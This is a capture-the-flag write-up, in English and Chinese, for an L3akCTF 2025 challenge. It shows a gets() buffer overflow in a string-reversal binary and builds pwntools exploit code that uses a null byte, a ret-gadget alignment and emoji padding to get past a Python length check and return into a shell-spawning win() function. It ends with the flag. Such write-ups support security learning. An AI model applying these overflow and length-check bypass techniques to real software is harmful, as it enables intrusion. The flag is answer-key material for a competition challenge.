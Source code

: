 # 1.0 Challenge
1. strlen -> /x00 to stop the checking
2. python wrapper only 0xff -> can use emoji in python on 1 length, but for c is 4 bytes

# 2.0 Analysis
this is a beginner and advanced challenge for me 
the source code very simple 
I even though I can finish it very fast but NOT 
this is trap shit 

```c
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
python wrapper
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

needed ROP
```
ret = 0x000000000040101a
win = 0x0000000000401262
```

# 3.0 Solution
## 3.1 OFFSET
ok 我们第一个要想的问题是 offset 
![[Pasted image 20250714170240.png]]
我一开始以为是直接0x110+8 + win 然后发现不work ？？？？？
0x118 = 280

如果不成功马上 请想起来 有ret alignment !!!!!
so 280 + ret + win
然后还是不能 .... 

## 3.2 STRLEN
这个时候想一下 为什么他没有直接断掉
so 要add \x00 null terminator
可是也要算好整个offset 
`[\x00 + offset] 这边只能是280 + ret 8 + win 8`
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += b"a"*(offset)
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

OK local pass

## 3.3 len(payload) > FF
看python 只能ff 如果直接pass 一定超过 因为我的整个payload 288 + 8
所以直接把offset 改成 unicode 就不会被 python check 
😎 python len: 1 c strlen: 4
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += "😃".encode()* ((offset)//4)
binary += b'aaa' # for alignment 
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

## 3.4 FULL SCRIPT
![[c1_3.py]]

# 4.0 FLAG 
```
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
```

https://github.com/sajjadium/ctf-archives/tree/268eabc246f2555f759a7b11fd3c25c46724db7c/ctfs/L3akCTF/2025/rev